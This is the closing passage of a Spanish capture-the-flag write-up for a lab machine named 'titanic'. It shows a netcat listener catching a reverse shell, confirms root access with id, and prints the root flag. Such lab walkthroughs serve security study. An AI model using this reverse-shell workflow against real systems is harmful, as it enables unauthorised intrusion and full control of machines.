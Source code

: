 Iniciaremos un `listener` desde nuestra máquina atacante a la espera de la conexión

~~~ bash
nc -lvnp 4444
listening on [any] 4444 ...
~~~

Al cabo de unos momentos obtendremos una consola como `root`

~~~ bash
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.55] 58226
bash: cannot set terminal process group (441356): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# id
id
uid=0(root) gid=0(root) groups=0(root)
root@titanic:/opt/app/static/assets/images# 
~~~

Ya podremos ver la flag en el directorio `/root` para concluir la máquina

~~~ bash
root@titanic:~# cat ~/root.txt
cfb411a1baafeb19b8d603a4082ad68f
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> A subtle thought that is in error may yet give rise to fruitful inquiry that can establish truths of great value.
> — Isaac Asimov
{: .notice--info}
